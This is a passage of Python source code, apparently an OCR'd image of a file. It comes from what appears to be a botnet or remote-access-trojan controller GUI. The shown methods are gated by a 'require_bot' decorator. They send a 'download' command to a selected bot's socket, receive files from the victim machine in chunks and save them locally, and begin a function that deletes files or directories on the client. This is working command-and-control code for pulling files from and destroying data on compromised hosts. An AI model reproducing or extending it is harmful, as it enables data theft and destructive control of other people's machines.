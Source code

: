     # Download file from client
    @require_bot
    def download_file(self):
        filename = self.download_entry.get().strip()
        if not filename:
            return
        self.log_command("download", f"Requesting download: {filename} from {self.selected_bot}")
        threading.Thread(target=self.download_file_thread, args=(filename,), daemon=True).start()

    def download_file_thread(self, filename):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            client_socket.sendall(f"download {filename}".encode())
            client_socket.settimeout(5)
            try:
                exists = client_socket.recv(1024).decode(errors="ignore")
            except socket.timeout:
                self.log_command("download", "[!] Timeout waiting for file existence response.")
                return
            client_socket.settimeout(None)
            if exists == "READY":
                save_path = os.path.join(BASE_DIR, os.path.basename(filename))
                with open(save_path, "wb") as f:
                    while True:
                        chunk = client_socket.recv(CHUNK_SIZE)
                        if not chunk:
                            self.log_command("download", "[!] Connection lost during download.")
                            break
                        if chunk.endswith(EOF_MARKER.encode()):
                            f.write(chunk[:-len(EOF_MARKER)])
                            break
                        f.write(chunk)
                self.log_command("download", f"[+] File received: {save_path}")
            elif exists == "NOFILE":
                self.log_command("download", "[!] Client reports file not found.")
            else:
                self.log_command("download", f"[!] Unexpected client response: {exists}")
        except Exception as e:
            self.log_command("download", f"[!] Error: {e}")

    # Delete file/directory on client
    @require_bot
    def delete_path(self):
        path = self.delete_entry.get().strip()
        if not path:
            return
        self.log_command("delete", f"Deleting {path} on {self.selected_bot}")
        threading.Thread(target=self.delete_path_thread, args=(path,), daemon=True).start()
